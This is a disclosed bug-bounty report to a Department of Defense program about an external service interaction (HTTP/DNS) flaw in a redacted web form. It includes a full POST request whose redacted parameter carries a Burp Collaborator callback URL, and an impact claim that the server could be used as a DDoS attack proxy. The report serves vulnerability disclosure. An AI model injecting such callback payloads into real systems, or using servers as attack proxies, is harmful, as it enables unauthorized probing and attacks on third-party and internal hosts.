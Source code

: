 # External Service Interaction (HTTP/DNS) on https://www.███  (██████████ parameter)

## Report Details
- **Report ID**: 997376
- **URL**: https://hackerone.com/reports/997376
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-10-03T23:36:38.631Z
- **Disclosed**: 2021-04-02T18:44:50.725Z

## Reporter
- **Username**: fiveguyslover
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Greetings, i've find a External service interaction (HTTP/DNS) on https://www.███████

```
External service interaction arises when it is possible to induce an application to interact with an arbitrary external service, 
such as a web or mail server. 
The ability to trigger arbitrary external service interactions does not constitute a vulnerability in its own right, 
and in some cases might even be the intended behavior of the application. 
However, in many cases, it can indicate a vulnerability with serious consequences.

In cases where DNS-based interactions can be triggered, it is normally possible to trigger interactions using other service types, 
and these are reported as separate issues.
 If a payload that specifies a particular service type (e.g. a URL) triggers only a DNS-based interaction, 
then this strongly indicates that the application attempted to connect using that other service, 
but was prevented from doing so by egress filters in place at the network layer. 
The ability to send requests to other systems can allow the vulnerable server to be used as an attack proxy. 
By submitting suitable payloads, an attacker can cause the application server to attack other systems that it can interact with. 
This may include public third-party systems, internal systems within the same organization, 
or services available on the local loopback adapter of the application server itself. Depending on the network architecture, 
this may expose highly vulnerable internal services that are not otherwise accessible to external attackers.
```
https://portswigger.net/kb/issues/00300200_external-service-interaction-dns

Full link  : https://www.██████/█████

POST Request : 

```
████████&MONTH=01&LNAME=frenchvlad&PHONE=555-555-0199&EDULVL=10&STATE=AL&EMAILFLAG=on&submitButton=Submit+Audition+Request&EMAIL=frenchvlad@example.com&ADD1=555-555-0199@frenchvlad.com&██████=http://bcrxn9tx1eboqdat33ghligdv41upj.burpcollaborator.net/?Winterville&ADD2=555-555-0199@frenchvlad.com&INST1MOS=Bass+Guitar&CITY=Winterville&YEAR=2003&INST1YRS=2+TO+5&DAY=01&CITIZEN=R
```

my payload : `█████████=http://bcrxn9tx1eboqdat33ghligdv41upj.burpcollaborator.net/?Winterville`

Proof (DNS) : 

██████

Proof (HTTP) : 

█████

best regards, 
frenchvlad

## Impact

We can use the weakness as a attack proxy to DDOS all Internal/external web conatiners, also could be amplified too

## Attachments
No attachments
